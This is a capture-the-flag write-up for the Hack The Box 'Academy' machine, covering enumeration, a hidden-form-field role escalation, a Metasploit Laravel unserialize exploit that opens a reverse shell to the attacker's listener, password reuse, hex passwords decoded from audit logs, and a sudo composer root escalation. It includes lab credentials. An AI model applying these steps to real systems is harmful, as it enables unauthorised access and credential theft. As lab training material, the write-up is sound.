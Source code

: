 ![](pics/icon.png)

# Academy (Linux)

## Enumeration

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The nmap output already says "Did not follow redirect to http://academy.htb". So let's add the name to our /etc/hosts file, before we start enumeration the webserver.

### Examine Port 80 - Apache Webserver

![](pics/htb_academy.png)

We see the homepage of HTB Academy. It has a login and register functionality. But first, let's run gobuster to see if we can find some directories or interesting files:

```
$ gobuster dir -u academy.htb -w /usr/share/wordlists/dirb/big.txt -x php

/admin.php (Status: 200)
/config.php (Status: 200)
/home.php (Status: 302)
/images (Status: 301)
/index.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
/server-status (Status: 403)
```

Let's check them one by one:

Admin.php: login page
![](pics/admin_php.png)

Config.php: blank for now - probably interesting once we have access to the server

![](pics/config_php.png)

Home.php - forwards to Login.php: Another login page

![](pics/admin_php.png)

Register.php - Registration form

![](pics/register_php.png)

So let's try to create an account. I used some random value for it. A habbit of mine is to always have Burpsuite in the background, to check some requests. Especially if they are related to registration or login. Intercepting the request with Burpsuite we see following:

```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://academy.htb
DNT: 1
Connection: close
Referer: http://academy.htb/register.php
Cookie: PHPSESSID=blm6cuvmr17s6guk92pik7fcs3
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

uid=test2&password=test2&confirm=test2&roleid=0
```

You see that roleid? That's weird isnt it? 

```html
               <td class="form_text" align="left"><br/>&nbsp;&nbsp;&nbsp;Repeat Password</td>
                <tr/>
                <tr>
                    <td align="right"><input class="input" size="40" type="password" id="confirm" name="confirm" /></td>
                </tr>
                <input type="hidden" value="0" name="roleid" />
```

It's a hidden field in the form. I immediately thought about increasing that roleid to 1 and to try my account for the admin login, as I might be lucky and can control the role of my user with it. And indeed! That works.

![](pics/admin_logged_in.png)

On the TODO list it states two strings "cry0l1t3 / mrb3n", which seem to be either passwords or usernames and the task "Fix issue with dev-staging-01.academy.htb". Probably a subdomain of the box. Let's add it to the `/etc/hosts` file and inspect the website.

## Gaining an Initial Foothold

![](pics/dev_staging.png)

It seems to be some kind of logging service. Scrolling through the logs, we can see some SQL credentials (`homestead:secret`). Let's note them down. Maybe we will need them later.

Scrolling further down, we can see the application name. Apparently it's a Laravel application. 

Hm, never heard of it. Let's do some research on it

*Laravel is a web application framework with expressive, elegant syntax. Laravel attempts to take the pain out of development by easing common tasks used in the majority of web projects, such as authentication, routing, sessions, and caching.* (https://laravel.com/docs/4.2/introduction)

A quick google search on Laravel vulnerabilities/exploits reveal a metasploit module `PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)`

*This module exploits a vulnerability in the PHP Laravel Framework for versions 5.5.40, 5.6.x <= 5.6.29. Remote Command Execution is possible via a correctly formatted HTTP X-XSRF-TOKEN header, due to an insecure unserialize call of the decrypt method in Illuminate/Encryption/Encrypter.php. Authentication is not required, however exploitation requires knowledge of the Laravel APP_KEY. Similar vulnerabilities appear to exist within Laravel cookie tokens based on the code fix. In some cases the APP_KEY is leaked which allows for discovery and exploitation.*

So, for the exploit we only need the APP_KEY. We have seen this one before! It's contained in the log output! 

Fire up msfconsole, use the module and configure it like this:

![](pics/metasploit_module.png)

Now start the exploit and we get a reverse shell!

```
msf6 exploit(unix/http/laravel_token_unserialize_exec) > run

[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Command shell session 3 opened (10.10.14.26:4444 -> 10.129.83.160:38564) at 2021-01-22 17:00:18 +0100
[*] Command shell session 4 opened (10.10.14.26:4444 -> 10.129.83.160:38566) at 2021-01-22 17:00:18 +0100

hostname && id
academy
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The first thing that we can now check is the `.env` file of the Laravel application. It's located in `/var/www/html/academy`.

```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

Here we see a password. However, we cannot connect to the database with it. So I went to the home directory and tried to login with every user using this password. This was successful with the user `cry0l1t3`. His/Her home directory also contains the user.txt file!

## Privilege Escalation

### User cry0l1t3

linpeas tells us that there the audit log files that are only readable by us (adm group) and root. So this is usually a strong hint. So let's check them out.

*The Linux Audit framework is a kernel feature (paired with userspace tools) that can log system calls. For example, opening a file, killing a process or creating a network connection. These audit logs can be used to monitor systems for suspicious activity*

So let's see if someone used `su` or `sudo` or some other commands that then require a password input from the user.

```
cry0l1t3@academy:/var/log/audit$ cat * | grep -E -i 'comm="sudo"|comm="su"'
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

The data looks like hex. Converting it results in `mrb3n_Ac@d3my!`. That's probably the password of the user `mrb3n`.

### User mrb3n

```
mrb3n@academy:~$ hostname && id
academy
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
```

Again we run linpeas. Nothing found. 
So we check the sudoers list. This time we are able to run `composer` as sudo!
A quick look onto [GTFObins](https://gtfobins.github.io/gtfobins/composer/), reveals that it can be exploited to gain root access. 
So let's follow it step by step:

First: (creates a random directory in /tmp)
```
TF=$(mktemp -d)
```
Then: (creates a json file containing a scripts object)
```
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
```
And finally: (run composer as root to executing the script)
```
sudo composer --working-dir=$TF run-script x
```

And we are root!
```
root@academy:/tmp/tmp.BCWVFCDOXp# hostname && id
academy
uid=0(root) gid=0(root) groups=0(root)
```




